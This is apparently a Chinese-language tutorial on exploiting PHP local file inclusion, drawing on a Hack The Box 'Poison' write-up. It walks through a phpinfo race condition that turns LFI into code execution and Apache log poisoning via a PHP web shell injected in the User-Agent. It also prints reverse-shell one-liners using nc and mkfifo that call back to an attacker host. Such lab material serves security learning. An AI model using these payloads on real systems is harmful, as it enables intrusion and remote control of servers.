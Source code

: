 # LFI 漏洞的利用

---

[参考链接1](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5)

[参考链接2](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

- LFI(本地文件包含漏洞)，这篇文章将介绍有关该漏洞的一些利用

###  1、phpinfo 漏洞信息利用

- 将LFI漏洞转变为远程代码执行（RCE）漏洞的竞争条件，服务器端需要满足以下条件：
    - LFI漏洞
    - 任何显示PHPInfo()配置输出的脚本
- [**脚本下载地址**](https://github.com/mxrmiss/Automation-script/blob/03406f1e18b9cbdcf832941b3bad224d99a0f55e/phpinfo.py)

- 得到脚本后，我们需要修改脚本中的攻击载荷, 使用命令 `locate php-reverse` 定位可用的php载荷位置

```
/usr/share/laudanum/php/php-reverse-shell.php
```

- 将载荷中的内容复制到脚本中, 替换图片中横线部分

![1](https://mxrblog.cn/p/o/1.png)

- 修改载荷中的IP地址和端口，然后将脚本的 LFIREQ 参数更改为我们在burpsuit中看到的参数。如：

```
LFIREQ="""GET /browse.php?file=%s
```

- 我们还必须将所有“=>”更改为“=>”，以便脚本正确编译。

- 然后使用nc接收反弹的shell
- 运行脚本 `python3 phpinfo.py xxxip xxxport` (受害者ip和端口)

### 2、日志中毒

- 原理
    - 日志中毒背后的想法是将一些 php 放入日志中，然后将它们加载到 php 将执行的位置。如果我们查看访问日志，我们会看到每次访问该站点时，都会有一个条目，其中包含所访问的 url 和浏览器访问的用户代理字符串。
    - 最简单的情况是更改我们的用户代理字符串，使其包含 php，然后将该日志文件包含在我们的 LFI 中。我们也可以毒化 url 字段，但访问类似`http://10.10.10.84/browse.php?not_an_arg=[php code]`. 只要我们能把我们的php写入日志，我们就成功了。

- 我们需要定位到日志文件的位置，这里以apache为例，通过google我们可以知道配置文件一般在 `/usr/local/etc/apache24/httpd.conf` 目录，查看配置文件，我们可以找到日志文件位置：

```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log"
```

- 打开burpsuit，获取日志文件页面页面并对其修改
- 由于用户代理(User-Agent)这一部分是由我们用户决定的，所以我们可以将这一部分换成我们的漏洞代码

```
<?php system($_GET['c']); ?>
```

- 通过修改参数c的值，我们可以在网页得到不同的结果

- 于是将反弹shell传值给c，第一次使用代码`nc -e /bin/bash 10.10.14.27 4444` ,结果只是连接上了靶机，但是未能反弹shell，这就说明了靶机的nc版本不支持-e 参数，于是使用nc的另一种反弹shell方式，代码：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- 查看本地监听器，会发现有结果了